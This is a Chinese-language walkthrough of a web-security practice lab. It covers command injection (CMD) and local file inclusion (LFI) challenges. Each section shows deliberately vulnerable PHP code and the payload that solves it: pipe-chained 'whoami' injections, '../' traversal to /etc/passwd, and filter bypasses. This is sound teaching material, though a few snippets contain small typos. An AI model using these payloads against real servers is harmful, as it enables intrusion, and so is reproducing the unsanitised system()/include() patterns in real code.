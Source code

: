 CMD-1

查看源代码：

```
<?php
    system($_GET["cmd"]);
 ?>
```

这个没有任何过滤，直接命令执行即可。payload：

```
?cmd=whoani
```

CMD-2

这题和上面一样，只不过改成了`POST`请求。

CMD-3

查看源码：

```
<?php
    system("/usr/bin/whois " . $_GET["domain"]);
?>
```

因为测试环境实在`windows`下，所以先把源码中路径改为`nslookup`。

这里需要退出`nsookup`命令，知识点：

> - cmd1|cmd2:不论`cmd1`是否为真，`cmd2`都会被执行；
> - cmd1;cmd2：不论`cmd1`是否为真，`cmd2`都会被执行；
> - cmd1||cmd2：如果`cmd1`为假，则执行`cmd2`；
> - cmd1&&cmd2：如果`cmd1`为真，则执行`cmd2`；

所以构造payload：

```
domain=google.com|whoami
```

CMD-4

方法差不多，只是变成了`POST`请求。

CMD-5

查看源码：

```
<?php
if (preg_match('/^[-a-z0-9]+.a[cdefgilmnoqrstuwxz]|b[abdefghijmnorstvwyz]|c[acdfghiklmnoruvxyz]|d[ejkmoz]|e[cegrstu]|f[ijkmor]|g[abdefghilmnpqrstuwy]|h[kmnrtu]|i[delmnoqrst]|j[emop]|k[eghimnprwyz]|l[abcikrstuvy]|m[acdeghklmnopqrstuvwxyz]|n[acefgilopruz]|om|p[aefghklmnrstwy]|qa|r[eosuw]|s[abcdeghijklmnortuvyz]|t[cdfghjklmnoprtvwz]|u[agksyz]|v[aceginu]|w[fs]|y[et]|z[amw]|biz|cat|com|edu|gov|int|mil|net|org|pro|tel|aero|arpa|asia|coop|info|jobs|mobi|name|museum|travel|arpa|xn--[a-z0-9]+$/', strtolower($_GET["domain"])))
        { system("whois -h " . $_GET["server"] . " " . $_GET["domain"]); } 
    else 
        {echo "malformed domain name";}
    
 ?>
```

这里对`domain`进行了一大堆过滤，但是却没有对`server`进行过滤，所以直接对`server`进行构造。  
域名查询语句：

```
whois -h [server] [domain]
```

payload:

```
domain=facebook.com&server=127.0.0.1|whoami||
```

最后的拼接语句为：

```
whois -h 127.0.0.1|whoami|| facebook.com
```

这里就执行`whoami`，`facebook.com`也被忽略了。

CMD-6

方法和上题一样，改成了`POST`请求。

LFI-1

查看源码：

```
<?php
include($_GET["page"]);
?>
```

这里没有过滤，且包含一个用户输入了的文件。payload：

```
page=C:/Windows/system.ini(windows)
age=/etc/passwd(Linux)
```

LFI-2

查看源码：

```
<?php
include("includes/".$_GET['library'].".php"); 
?>
```

这里添加了要包含文件的上级路径。这里补充一个小知识点：

> ../的意思是返回上次目录

所以我们要跳出`includes`，那么就可以使用`../`跳出。payload:

```
library=../../../zx
```

这里可以使用%00截断，也可以不使用，根据包含文件的类型判断。

LFI-3

查看源码：

```
<?php
if (substr($_GET['file'], -4, 4) != '.php')
 echo file_get_contents($_GET['file']);
else
 echo 'You are not allowed to see source files!'."
";
?>
```

这里使用了`substr()`函数对传入的值进行截取判断，最后四位不能是`.php`。

这里绕过的方法有很多种：

1. 大小写绕过
2. 背后加'.'
3. 背后加空格
4. 背后加'/.'
5. 使用'.ph<'进行`.php`拓展过滤渗出

LFI-4

查看源码：

```
<?php
include('includes/class_'.addslashes($_GET['class']).'.php');
?>
```

这里的`addslash()`会对预定义字符进行转义：

1. 单引号
2. 双引号
3. 反斜杠
4. 0x00  
    也就是说不能使用00截断(貌似也不需要？)，payload和LFI-2一样，不过返回的上级目录会多一点。

LFI-5

查看源码：

```
<?php
   $file = str_replace('../', '', $_GET['file']);
   if(isset($file))
   {
       include("pages/$file");
   }
   else
   {
       include("index.php");
   }
?>
```

这里使用了`str_replace()`对`../`进行了过滤，也就是说无法返回上级目录了，但是因为相当于删除操作，所以可以使用双写的方式进行绕过。payload:

```
file=..././..././..././zx.php
```

LFI-6-10

这几道题就是之前五道题的`POST`方式。

LFI-11

查看源码：

```
<form action="/LFI-11/index.php" method="POST">
    <input type="text" name="file">
    <input type="hidden" name="style" name="stylepath">
</form>

<?php include($_POST['stylepath']); ?>
```

这里用`POST`提交参数，但是不是通过文本框中提交，真正的用`hidden`隐藏起来了。所以我们需要通过火狐/burp进行`POST`请求。

LFI-12

这题和上题一样，只不过是`GET`方式。

LFI-13

不知道为什么和LFI-5一样。

LFI-14

和上题一样，改成`POST`请求。

HDR-1

查看源码：

```
<?php
$template = 'blue.php';
if ( array_key_exists( $_COOKIE['TEMPLATE'] ) )
   $template = $_COOKIE['TEMPLATE'];
include ( dirname(FILE) . "/" . $template );
?>
```

`array_key_exists(key,array)`:检查某个数组中是否存在指定的键名，如果键名存在则返回 true，如果键名不存在则返回 false。如果指定数组的时候省略了键名，将会生成从 0 开始并且每个键值对应以 1 递增的整数键名。

`dirname(path)`:返回路径中的目录部分。

这道题在`Cookie`中传值，可以通过返回上级目录的方式进行包含。